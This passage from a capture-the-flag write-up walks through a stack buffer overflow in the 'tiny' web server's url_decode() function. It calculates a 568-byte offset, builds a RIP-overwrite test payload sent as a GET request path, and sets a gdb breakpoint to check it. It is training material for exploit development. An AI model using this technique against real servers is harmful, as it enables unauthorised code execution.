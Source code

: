 Having most of the stuff needed for futher exploitation, let\'s dive
into it. Buffer overflow occures when url~decoder~() tries to \'decode\'
filename sent with a GET request. So our payload will be in:

``` example
GET /payloadpayloadpayload
```

Note: we won\'t count first slash \'/\' from GET request in payload
length, because it get trimed before processing.

![](/images/smasher-2018-11-22/2025-01-18_19-09-55_image.png)

from the picture above we can calculate that our buffer is at:

``` example
0x298 - (0x90 - 0x30) = 0x238
Converted to decimal 568
```

We can test that with and overwrite RIP with B\'s. Our payload is \"A\"
\* 568 + 0x424242424242

Let\'s run tiny binary in gdb and set breakpoint right after
url~decode~() ret.

``` bash
root@--name:/ctf/work# gdb -q tiny
Reading symbols from tiny...done.
pwndbg> set follow-fork-mode child
pwndbg> b *0x000000000040178b
Breakpoint 1 at 0x40178b: file tiny.c, line 268.
pwndbg> r
Starting program: /ctf/work/tiny 
warning: Error disabling address space randomization: Operation not permitted
listen on port 9999, fd is 3
```
